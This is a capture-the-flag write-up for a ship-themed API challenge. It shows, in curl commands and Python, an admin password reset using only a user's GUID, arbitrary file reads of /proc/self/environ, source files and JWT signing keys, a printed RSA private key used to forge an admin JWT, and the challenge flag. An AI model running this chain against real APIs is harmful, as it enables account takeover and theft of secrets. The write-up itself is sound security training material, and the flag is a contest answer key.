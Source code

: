 #### Challenge:

Ahoy, officer,

on our last port visit, a new U.S.A. (Universal Ship API) interface was installed on the ship. In order to unlock new experimental ship functions, the special code has to be entered into ship FLAG (First Layer Application Gateway). Your task is to get this FLAG code from U.S.A.

May you have fair winds and following seas!

The U.S.A. is available at <a href="http://universal-ship-api.cns-jv.tcc" target="_blank">http:&#47;&#47;universal-ship-api.cns-jv.tcc</a>.

---

#### Solution:

- playing with the API reveals that there are few endpoints however for some of them we need token, `nikto` didn't find anything useful
```
http://universal-ship-api.cns-jv.tcc/docs
http://universal-ship-api.cns-jv.tcc/api/v1/admin
http://universal-ship-api.cns-jv.tcc/api/v1/user
```

- after digging for some time I came across [writeup](https://0xdf.gitlab.io/2022/05/02/htb-backendtwo.html) which seems to be inspiration for this challenge... based on it instead of `nikto` `feroxbuster` is used and that reveals 2 additional endpoints
```bash
feroxbuster -u http://universal-ship-api.cns-jv.tcc/ --force-recursion -C 404,405 -m GET,POST --random-agent
feroxbuster -u http://universal-ship-api.cns-jv.tcc/api/v1/user --force-recursion -C 404,405 -m GET,POST --random-agent
> http://universal-ship-api.cns-jv.tcc/api/v1/user/signup
> http://universal-ship-api.cns-jv.tcc/api/v1/user/login

curl -X POST   -v http://universal-ship-api.cns-jv.tcc/api/v1/user/signup -d '{"email": "magic", "password": "0xdf0xdf"}' -H "Content-Type: application/json"
curl -X POST   -v http://universal-ship-api.cns-jv.tcc/api/v1/user/login -d 'username=magic&password=0xdf0xdf'
```
- now we can craft our own user and look into the `swagger` where we find couple of new endpoints:
  - `updatepassword` with just the user `uuid` we can alter password
  - `admin/file` can download any file on FS
  - `admin/getFlag` get the final flag

- updating the `admin` password is pretty easy as we can list it's `uuid` without admin token
```bash
curl http://universal-ship-api.cns-jv.tcc/api/v1/user/1 \
  -H "Authorization: Bearer ..."  \

curl -X 'POST' \
  'http://universal-ship-api.cns-jv.tcc/api/v1/user/updatepassword' \
  -H "Authorization: Bearer ..."  \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "guid": "f2abcb5c-7060-4ba8-bf76-0447ba79fbb4",
  "password": "0xdf0xdf"
}'
curl -X POST   -v http://universal-ship-api.cns-jv.tcc/api/v1/user/login -d 'username=admin@local.tcc&password=0xdf0xdf'
```

- unfortunately with the admin token `getFlag` endpoint is still not working as it requires custom `jwt` property, so we need to craft our own token and for that we'll reverse the application and leak all the keys via `admin/file` endpoint
```bash
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/file -H "Authorization: Bearer ..." -H 'Content-Type: application/json'   -d '{ "file": "/proc/self/environ" }' | jq -r .file
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/file -H "Authorization: Bearer ..." -H 'Content-Type: application/json'   -d '{ "file": "/app/shipapi/main.py" }' | jq -r .file
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/file -H "Authorization: Bearer ..." -H 'Content-Type: application/json'   -d '{ "file": "/app/shipapi/appconfig/config.py" }' | jq -r .file
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/file -H "Authorization: Bearer ..." -H 'Content-Type: application/json'   -d '{ "file": "shipapi/appconfig/jwtsigning.key" }' | jq -r .file
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/file -H "Authorization: Bearer ..." -H 'Content-Type: application/json'   -d '{ "file": "shipapi/appconfig/jwtsigning.pub" }' | jq -r .file
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/file -H "Authorization: Bearer ..." -H 'Content-Type: application/json'   -d '{ "file": "/app/shipapi/core/auth.py" }' | jq -r .file
```

- generate custom `jwt` token with `flag-read` property
```python
from datetime import datetime, timedelta
import jwt

payload = {}
payload["type"] = "access_token"
payload["exp"] = datetime.utcnow() + 60 * 24 * 8
payload["iat"] = datetime.utcnow()
payload["sub"] = str(1)
payload["admin"] = bool(True)
payload["flag-read"] = bool(True)
payload["guid"] = str("f2abcb5c-7060-4ba8-bf76-0447ba79fbb4")

JWT_RSA_KEY = "-----BEGIN RSA PRIVATE KEY-----\n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\n-----END RSA PRIVATE KEY-----\n"
ALGORITHM: str = "RS384"

jwt.encode(payload, JWT_RSA_KEY, algorithm=ALGORITHM)
```

- all that remains is get the flag with our crafted token
```bash
curl -X POST http://universal-ship-api.cns-jv.tcc/api/v1/admin/getFlag H "Authorization: Bearer ..."`
```
---

<details><summary>FLAG:</summary>

```
FLAG{910P-iUeJ-Wwq1-i8L2}
```

</details>
<br/>
